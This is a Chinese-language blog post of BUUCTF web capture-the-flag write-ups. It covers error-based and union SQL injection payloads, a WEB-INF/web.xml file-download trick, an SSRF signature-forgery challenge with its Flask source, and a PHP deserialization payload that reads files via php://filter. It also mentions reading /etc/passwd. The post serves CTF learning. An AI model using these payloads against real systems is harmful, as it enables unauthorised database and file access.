









<!--yml
category: 未分类
date: 2022-04-26 14:21:28
-->

# BUUCTF__web题解合集（一）_风过江南乱的博客-CSDN博客_buuctf web

> 来源：[https://blog.csdn.net/TM_1024/article/details/107482984](https://blog.csdn.net/TM_1024/article/details/107482984)

## 前言

*   之前的速度太慢了，所以以后尽量一次多写几道题，少说废话。
*   至少得过一遍知道相关知识点。

## 题目

### 一、[极客大挑战 2019]HardSQL

*   随便输入发现有报错回显，并且是单引号闭合。再跑字典发现像空格、> 、= 、union、if 常见的字符或单词都被过滤。

*   首先会想用`/**/`绕过空格过滤，失败。用大小写、双写绕过单词过滤，也失败。 所以联合注入、盲注都不可行。

*   有报错回显，且`extractvalue` 和 `updatexml`均未被过滤，尝试报错注入。

*   再因为空格被过滤，想到用`()`分割语句到达到代替空格的效果。`=`被过滤，可以用`like`替代。

*   所以构造payload。

*   爆库，得到数据库名称 `geek`

    ```
    check.php?username=1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=2 
    ```

*   爆表，得到表名 `H4rDsq1`

    ```
    check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),0x7e),1))%23&password=2 
    ```

*   爆字段，得到字段 `id,username,password`

    ```
    check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e),1))%23&password=2 
    ```

*   爆内容，但因为 updatexml限制32位字符，而且flag长度大于32，所以用left和right函数拼接。

*   语法：left(arg,length)、right(arg,length) 。分别返回 arg 最左边、右边的 length 个字符。

    ```
    前半部分 check.php?username=1'or(updatexml(1,concat(0x7e,(select((left(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2

    后半部分 check.php?username=1'or(updatexml(1,concat(0x7e,(select((right(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2 
    ```

*   `拼接成功解题。关键要点在于空格的绕过。`

### 二、[GXYCTF2019]BabySQli

*   这题好像和原题少了题目描述 ,原题目有提到md5密码验证。

*   查看源代码，在search.php发现提示。

    ```
    MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5 
    ```

*   一串base32编码的字符串，base32解码得一串base64编码，继续base64解码得到提示的sql查询语句。

    ```
    select * from user where username = '$name' 
    ```

*   base32和base64的差别

> base16 只有大写字母（A ~ F）和数字（ 0 ~ 9），无等号
> base32 只有大写字母（A ~ Z）和数字数字（ 2 ~ 7 ）组成，或者后面有三个等号。
> base64 只有大写字母（A ~ Z）和数字（ 0 ~ 9 ），小写字母（a ~ z）组成，后面一般是两个等号。

*   测试注入，发现在账号名为admin时，提示密码错误，否则提示账号错误，所以，admin账号在数据库中存在。且联合注入可以用，得知存在列数为 3,并且第二列存储的为账号，通过 `1' union select 1,'admin',2#` 改变admin的位置可知。

*   但继续往下希望爆出admin对应的密码时，却失败了，`()`被过滤。但有师傅说用sqlmap可以一把梭。

*   转而解题角度在于 `联合查询查询不存在数据会构造虚拟的数据`，没有实际写入，但查询当时存在。
    

*   再次查询所有内容时发现并不存在。
    

*   所以，利用这个特性，在查询一个不存在的账号，生成一个虚拟的密码，同时传入虚拟的密码，既可以查询成功。

*   但同时题目有说密码被md5了，所以创建虚拟的密码时应用md5值。

*   所以我们构造payload。其中选用 123456 的 md5 值 e10adc3949ba59abbe56e057f20f883e 作为虚拟密码。

    ```
    name=1' union slelct 3, 'admin','e10adc3949ba59abbe56e057f20f883e'&pw=123456 
    ```

*   很重要的一点是，后面包裹字符串的单引号不能少，刚开始复现失败就是因为单引号。数据类型的问题。

*   但看wp时很多师傅提到推测后端验证源码。只能说太强了。

*   `新知识点：联合查询查询不存在数据会构造虚拟的数据`

### 三、[RoarCTF 2019]Easy Java

*   java没学过，所以这题差不多就是看wp积累知识面吧。

*   刚开始以为是sql注入，以为有登录框，尝试无果，在 help 页面中发现url有点可疑，且页面回显了一个内容
    

*   百度可知 `java.io.FileNotFoundException` 为 拒绝访问 或 系统找不到指定路径 报错。

*   再回去看登录页面的源码，发现标签作用为加载该内容，失败出现报错

    ```
    <center><p><a href="Download?filename=help.docx" target="_blank">help</a></p></center> 
    ```

*   但网上的博客说讲GET请求换成POST请求就可以，尝试确实可行，但都没有说为什么。

*   接下来就是 Java web 的知识点。`WEB-INF/web.xml` ，可以[了解一下](https://blog.csdn.net/qq_36869808/article/details/89084412)
    。 这也是[常见源码泄露](https://www.cnblogs.com/xishaonian/p/7628153.html)的一个知识点。

*   因此继续用POST请求访问`filename=WEB-INF/web.xml`，得到一个xml文件，最后有一个关于`/Flag`的url请求处理
    

*   再回去访问 /flag ，响应500报错，同时提示一个`com/wm/ctf/FlagController (wrong name: FlagController)` 错误，上面提示到，这可能是路径报错。
    

*   同时结合上面的java web 默认项目路径WEB-INF/classes，补全文件后缀名。POST请求访问，看到一串字符串。base64解码得到flag。
    

*   `总结知识点，在于第一个GET请求改POST请求，第二个是WEB-INF是java的WEB应用的安全目录。第三则是具体关于WEB-INF里的一些文件信息，都有什么在里面`。

### 四、[De1CTF 2019]SSRF Me

```
 from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False

@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0') 
```

*   可以先注意到满足什么条件才能出flag，从`Exec()` 函数往后推，找到了`checkSign()` 函数，再到路由绑定的 `/geneSign` 再到`getSign()` 函数，再最后到路由绑定的`/De1ta` 调用`Exec()` 函数。

*   再来逐一看满足条件，首先是`self.checkSign()`为真，也就是下面的条件满足，才能读取flag。

    ```
    getSign(self.action, self.param) == self.sign 
    ```

*   找到 `getSign` 函数

    ```
    hashlib.md5(secert_key + param + action).hexdigest() 
    ```

*   拼接了`secert_key + param + action`一串md5值与sign比较相等。

*   再继续找sign的值，没找到，但是，同时发现路由绑定的 `/geneSign` 也调用了`getSign`函数，同时有返回值，所以，得利用它，获取一串相同的md5值。

*   看到在路由绑定的 `/geneSign`中，action = “scan” 不用管，但param应该是什么呢？题目同时有flag在flag.txt，是不是`param=flag.txt`？如果这样的话，不能满足 `if "read" in self.action` ，所以，param应该为flag.txtread。

*   在 `/geneSign` 中 secert_key + param = flag.txtread , action=scan

*   在`/De1ta`中 param = flag.txt ， secert_key + action =readscan 就行。

*   所以，就先访问`/geneSign?param=flag.txtread`得到md5值。
    

*   再加上cookie值 `sign =c6ceaf65b6d57ad8e5e6d57032534d44`和 `action=readscan` 访问 `/De1ta?param=flag.txt` 成功得到 flag
    

*   题目总结：按逻辑来代码审计，可以逆推函数出现的地方，还有就是flask框架的简单响应流程。

### 五、[网鼎杯 2020 青龙组]AreUSerialz

*   直接给源码，可以在主函数中看到为PHP反序列化。

*   继续分析，先看到构造函数 `__destruct()`

    ```
    构造方法：具有构造函数的类会在每次创建新对象时先调用此方法，对象创建完成后第一个被对象自动调用的方法。 
    ```

*   也就是说在执行反序列化时先调用，先对它进行分析。
    

*   先注意到`===` 强比较，不仅比较值还不仅数据类型。`op==="2"` 满足后才能继续往下，满足后分别为 op、content 赋值为1、空。并调用`process()` 函数。

*   再看 `process()` 函数。继续验证了op，为 1 则调用`write()`函数，为 2 则调用 `read()`函数。很明显得为2，因为2才有输出返回值。但注意到此时验证用的是 `==` 而且前面用的是`"2"` 属于字符型，那就会就来了，让`op=2`，整数型，在 `op==="2"` 时不成立，但在`op=="2"`时成立。

*   继续看`read()`函数 `file_get_contents`读取文件，很自然想到PHP伪协议`php://filter` ，而且告诉了 flag.php ,所以也很明确了`filename` 变量的值。

*   最后一个问题，在反序列化之前调用了`is_valid` 函数，验证了传入的`str` 变量的ASCII码值都在32~125之间。但因为op、filename都为protected类型。序列化后会出现%00不可见字符，而它的ASCII值不属于32 ~ 125之间，所以不行。

*   解决办法，在序列化时 将属性改为public 。因为php7.1+版本对属性类型不敏感。

*   有一个说将序列化后的字符串再url编码一下，然后%00替换为\00，s替换为S，也可以。

*   最后构造序列化字符串。

```
<?php
class FileHandler { 
    public  $op = 2;
    public $filename = "php://filter/read=convert.base64-encode/resource=flag.php";
    public $content = "oavinci"; 
} 
$a = new FileHandler();
$b = serialize($a);
echo $b;
?> 
```

*   传入str变量成功解题。
*   但实际比赛时说需先尝先试读取/etc/passwd检验自己的payload是否正确，然后再读取服务器上的配置文件，猜出flag.php所在的绝对路径，再将其读取。
*   本题总结，差不多知识点都是知道的，欠缺分析能力。不过在序列化时 将属性改为public 。因为php7.1+版本对属性类型不敏感。这个确实不知道。积累了。

## 最后

*   加油，加油，加油。
*   离大佬的距离永远是那么遥远。
*   附上[题目链接](https://buuoj.cn/challenges)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)